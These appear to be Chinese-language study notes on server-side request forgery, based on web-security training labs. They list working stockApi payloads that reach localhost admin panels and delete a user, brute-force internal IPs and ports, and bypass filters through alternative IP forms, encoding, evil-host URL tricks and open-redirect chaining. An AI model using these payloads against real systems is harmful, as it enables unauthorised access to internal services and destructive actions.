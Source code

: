 # ssrf

可能存在于库存的查询功能

通过后端 api 查询的功能可通过伪造 api 伪造用户请求

```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=6&storeId=1
```

> 库存检查功能，可以从内部系统获取数据

构造 api 请求

```
stockApi=http://localhost/admin
```

> 获取 `/admin` URL 的内容

```
stockApi=http://localhost/admin/delete?username=carlos
```

> 删除用户 `carlos` 
>
> 在面板查看删除链接源码即可构造删除命令

在控制台 ip 未知的情况下可通过爆破获取

```
stockApi=http://192.168.0.§1§/admin
```

有时可能需要爆破端口

```
stockApi=http://192.168.0.§1§:§80§/admin
```

某些网站可能对特定 IP 的访问或者特定的路径进行过滤

```
使用 127.0.0.1 的替代 IP 表示形式，例如 2130706433 、 017700000001 或 127.1 。
注册您自己的域名，解析为 127.0.0.1 。您也可以使用 spoofed.burpcollaborator.net 来实现此目的。(http://test.local:8080/admin)
使用 URL 编码或大小写变化来混淆被阻止的字符串（有时需要双 URL 编码）。(http://127.0.0.1:8080/AdMi%6e)
提供您控制的 URL，该 URL 会重定向到目标 URL。尝试对目标 URL 使用不同的重定向代码以及不同的协议。例如，在重定向期间从 http: URL 切换到 https: URL 已被证明可以绕过某些反 SSRF 过滤器。(https://127.0.0.1:8080/admin)
```

> 尝试访问一个目标本地 IP，并构造正常操作，若出发安全机制则是 IP 被过滤
>
> ```
> http://127.0.0.1:8080/product/stock/check?productId=1&storeId=1
> ```
>
> 通过替代 IP 表示形式，访问不存在的路径，若未触发安全机制则成功绕过 IP 过滤
>
> ```
> http://127.1:8080/test
> ```
>
> 得到 IP 后爆破路径，触发 WAF 则是路径被过滤
>
> ```
> http://127.1/admin
> ```
>
> 可尝试对路径大小写或者 URL 绕过（可尝试使用 Hackvertor 进行双 URL 编码）
>
> ```
> http://127.1/AdMi%4e
> ```

白名单过滤可以通过以下方式绕过

> - 您可以使用 `@` 字符将凭据嵌入 URL 中的主机名之前。例如：
>
>   ```
>   https://expected-host:fakepassword@evil-host
>   ```
>
> - 您可以使用 `#` 字符来指示 URL 片段。例如：
>
>   ```
>   https://evil-host#expected-host
>   ```
>
> - 您可以利用 DNS 命名层次结构将所需的输入放入您控制的完全限定的 DNS 名称中。例如：
>
>   ```
>   https://expected-host.evil-host
>   ```
>
> - 您可以对字符进行 URL 编码以混淆 URL 解析代码。
>
> - 如果实现过滤器的代码处理 URL 编码字符的方式与执行后端 HTTP 请求的代码不同，则这尤其有用。您还可以尝试双编码字符；一些服务器对它们收到的输入进行递归 URL 解码，这可能会导致进一步的差异。
>
> - 您可以结合使用这些技术。

有时可以通过利用开放重定向漏洞来绕过基于过滤器的防御。

> 例如，该应用程序包含一个开放重定向漏洞，其中以下 URL：
>
> ```
>  /product/nextProduct?currentProductId=6&path=/product?productId=3
> ```
>
> 返回重定向到：
>
> ```
>  /product?productId=3
> ```
>
> 您可以利用开放重定向漏洞绕过URL过滤，利用SSRF漏洞，如下：
>
> ```
> POST /product/stock HTTP/1.0
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 118
> 
> stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
> ```

若存在无回显的 ssrf 则可利用 Burp Collaborator 修改  Referer 标头中指定的 URL 测试

```
Referer: https://test.oastify.com/
```

可能存在 SSRF 的 URL

```
http://www.xxx.com/vul.php?url=http://www.xxc.com/xxx.jpg
http://share.xxx.com/index.php?url=http://test.com
```

